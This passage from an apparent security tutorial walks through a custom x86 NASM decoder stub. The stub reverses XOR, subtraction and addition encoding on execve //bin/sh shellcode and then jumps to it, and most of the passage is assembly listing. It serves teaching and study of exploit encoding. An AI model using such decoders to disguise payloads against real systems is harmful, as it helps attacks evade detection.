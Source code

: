 `EDI` is then incremented by `1` to shift on to the next byte which needs to be added by `7`. The loop continues until the shellcode in it's entirety has been decoded.

~~~ nasm
xor ebx, ebx          ;clearing out ebx
mov bl, byte [edi]    ;taking the current byte in EncodedShellcode and placing it into BL. EDI starts at +10.
add bl, al            ;adding the current value in BL by 7 and placing that value into BL
mov byte [edi], bl    ;replacing the current byte at the memory location pointed to by EDI with the decoded byte
inc edi               ;shifting to the next byte
loop add_decoder_loop ;loop until CL has been met
~~~


<br>9\. `jmp short EncodedShellcode`

The final instruction performs a short `jmp` to the `EncodedShellcode` label where the the existing encoded values have been overwritten with the decoded values. Execution is then passed to the decoded Stack-based `execve` `//bin/sh` shellcode.


### decode.nasm
Below is decode.nasm in its entirety.

~~~ nasm
;decode.nasm
;sanjiv kawa (@skawasec)
;this decodes shellcode encoded by encode.rb

global _start

section .text
_start:
  jmp short encoded_shellcode

decode:
  pop esi             ;the address for EncodedShellcode is placed in to ESI
  push esi            ;the address for EncodedShellcode is pushed on to the stack for preservation
  lea edi, [esi +10]  ;the address for EncodedShellcode with an offset of 10 is placed into EDI

  xor ecx, ecx      ;clearing out ecx
  mov cl, [esi +8]  ;the length of the EncodedShellcode is placed into DL

xor_decoder_loop:
  xor ebx, ebx          ;clearing out ebx
  mov bl, byte [esi]    ;taking the current byte in EncodedShellcode and placing it into BL
  xor bl, 0xd3          ;xoring the current value in BL with 0xd3 and placing that value into BL
  mov byte [esi], bl    ;replacing the current byte at the memory location pointed to by ESI with the decoded byte
  inc esi               ;shifting to the next byte
  loop xor_decoder_loop ;looping through the entirety of EncodedShellcode

  pop esi       ;resetting esi to its original location, the beginning of EncodedShellcode
  xor ecx, ecx  ;clearing out ecx
  mov cl, 10    ;this sets the loop count for sub_decoder_loop. The fixed value of 10 is okay as only the first 10 bytes need to be subtracted.

  xor edx, edx      ;clearing out edx
  mov dl, [esi +8]  ;the length of the EncodedShellcode is placed into DL

  xor eax, eax  ;clearing out eax
  mov al, 5     ;5 is the subtraction value

sub_decoder_loop:
  xor ebx, ebx          ;clearing out ebx
  mov bl, byte [esi]    ;taking the current byte in EncodedShellcode and placing it into BL
~~~